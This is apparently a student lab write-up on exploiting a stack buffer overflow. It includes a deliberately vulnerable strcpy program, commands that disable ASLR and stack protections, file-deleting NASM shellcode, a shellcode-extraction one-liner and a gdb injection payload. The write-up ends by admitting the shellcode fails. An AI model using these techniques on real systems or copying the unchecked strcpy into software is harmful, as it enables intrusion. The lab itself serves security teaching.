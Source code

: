 ## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code:
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`


Run file_del: 
`nasm -g -f elf file_del.asm`
`ld -m elf_i386 -o file_del file_del.o`
![compile vuln](./imgs/file_del1.png)

Run this command to get shellcode from `file_del`:
`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
![shellcode](./imgs/file_del2.png)

Use `gdb` to run program:
`gdb vuln.out -q`
![gdb](./imgs/file_del3.png)

break at 2 points:
`0x08048441`
`0x0804846b`
Run program:
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")`
![](./imgs/file_del4.png)
Continue: `gdb-peda$ c`
![](./imgs/file_del5.png)
`x/80xb $esp` to check stack 
We got some problem in shellcode. It's wrong when running program.